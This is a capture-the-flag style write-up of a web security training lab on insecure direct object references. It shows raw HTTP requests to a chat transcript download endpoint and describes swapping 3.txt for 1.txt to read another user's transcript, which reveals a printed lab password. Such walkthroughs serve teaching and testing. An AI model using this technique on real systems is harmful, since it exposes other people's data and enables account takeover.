








# Insecure direct object references

## Lab Description :


## Solution :


The lab page contains a Live chat link which allows us to send messages and also view transcripts,



For testing, first I tried to send a message.



Now when I click transcript, it disconnects from the chat and downloads the chat transcript.



Opening the transcript



Notice that The transcript downloaded was 2.txt and why not 1.txt?. Maybe there was previous chats which contains carlos's password

Lets repeat the same process but capture the request when clicking on transcript button.

The browser sends 2 request,

**POST request to /download-transcript **
```html
POST /download-transcript HTTP/2
Host: 0a93006303669dea816ad90100780044.web-security-academy.net
Cookie: session=3pDWJmTTJsAkBH4iRJC3adMvr27d6Cyq
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------20881831844699883562007729330
Content-Length: 421
Origin: https://0a93006303669dea816ad90100780044.web-security-academy.net
Referer: https://0a93006303669dea816ad90100780044.web-security-academy.net/chat
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers


-----------------------------20881831844699883562007729330

Content-Disposition: form-data; name="transcript"

CONNECTED: -- Now chatting with Hal Pline --<br/>You: Hi<br/>Hal Pline: What did your last slave machine die of?<br/>Hal Pline: You know I can hear you from further away, no need to be in my personal space<br/>DISCONNECTED: -- Chat has ended --

----------------------------20881831844699883562007729330--
```

GET request to /download-transcript which downloads the file to our system -
```html
GET /download-transcript/3.txt HTTP/2
Host: 0a93006303669dea816ad90100780044.web-security-academy.net
Cookie: session=3pDWJmTTJsAkBH4iRJC3adMvr27d6Cyq
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a93006303669dea816ad90100780044.web-security-academy.net/chat
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
```
It retreives a static file 3.txt , lets change it to 1.txt.

As we guessed, the first chat 1.txt contains the chat which has carlos's password.



Pasword - ``tlyc9lxwaf51hql4rjin``

Now login as carlos, to solve the lab.



#### Visit The Next Page For The Next Level :)
